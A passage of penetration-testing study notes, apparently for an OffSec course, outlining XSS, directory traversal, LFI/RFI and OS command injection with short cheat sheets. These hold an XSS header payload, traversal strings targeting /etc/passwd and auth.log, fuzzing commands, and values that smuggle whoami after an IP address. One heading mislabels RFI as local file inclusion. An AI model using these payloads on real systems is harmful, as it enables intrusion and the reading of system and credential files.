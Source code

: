 PayloadAllTheThings XSS Injection:https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection
### Cheatsheet
```bash
# Testing on HTTP Headers:User-Agent: 
<script>alert(42)</script>
#Testing with wfuzz:
wfuzz -c -z file,/usr/share/seclists/Fuzzing/XSS/human-friendly/XSS-payloadbox.txt -p"127.0.0.1:8080:HTTP" "http://127.0.0.1/?name=FUZZ"

```

## 7. Hacktrack: Common Web Application Attacks
- https://portal.offsec.com/courses/osa-pen-200-39188/learning/hacktrack-common-web-application-attacks-214496/hacktrack-common-web-application-attacks-214497
---
### Dir traversal
Goal: To read or access files outside the web application's root directory.  
How: manipulate user-supplied input (like a filename in a URL parameter) by injecting the sequence ../ (or ..\ on Windows) to move up to parent directories in the file system.

### LFI - local file inclusion
Goal: To trick the web application into executing code from a file.  
How: uses DIR traversal techniques to reach local, non-web-root file  

### RFI - local file inclusion
Goal: Execute a file hosted on a remote server (controlled by the attacker).  
How: attacker provides a full URL pointing to a malicious script they control, and the vulnerable application fetches and executes it.  

### OS Command Injection
Goal: To execute commands (like ls, id, rm, or net user) directly on the server's operating system (OS).  
How: injects shell metacharacters (e.g., ;, &, |, &&) into an input field that the application then passes to a system function for execution. This causes the OS to see and run multiple distinct commands.

### Cheatsheet
```bash
# Directory Traversal
../../../../etc/passwd # Linux
..\\..\\..\\..\\windows\\win.ini # Windows
../../../../var/log/auth.log # Linux log file for poisoning

# LFI RFI fuzzing
ffuf -u https://example.com/cms/login.php?language=FUZZ -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt
# /usr/share/seclists/Fuzzing/LFI/LFI-Windows-adeadfed.txt
# -ac : Autocalibration: will attempt to automatically filter out
# -fs 1234 : run the command once,  note the size of the invalid responses error paages

# OS Command injection 
# (` ; &  | && ||) input field or get/put, adding /injecting  metacharacters
127.0.0.1 `whoami`
127.0.0.1; whoami
127.0.0.1 || whoami
127.0.0.1 | whoami
```
## 8. Hacktrack: Assembling The Pieces Part 1  